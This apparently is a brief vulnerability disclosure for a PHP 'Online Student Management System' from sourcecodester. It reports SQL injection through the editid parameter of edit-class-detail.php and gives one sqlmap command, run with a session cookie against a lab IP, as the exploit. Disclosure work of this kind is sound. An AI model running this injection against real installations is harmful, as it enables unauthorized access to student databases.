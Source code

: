 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/16137/online-student-management-system-php-free-download.html

Vulnerability trigger parameter: $editid

The process of vulnerability discovery is as follows：

![image-20230223153431074](C:\markdown\images\image-20230223153431074.png)

exp

```
sqlmap.py -u "http://192.168.31.50/eduauth/student/edit-class-detail.php?editid=1" --cookie "PHPSESSID=po9tmu5iqkuvffteh4b6rur4g0"
```

![image-20230223153333367](C:\markdown\images\image-20230223153333367.png)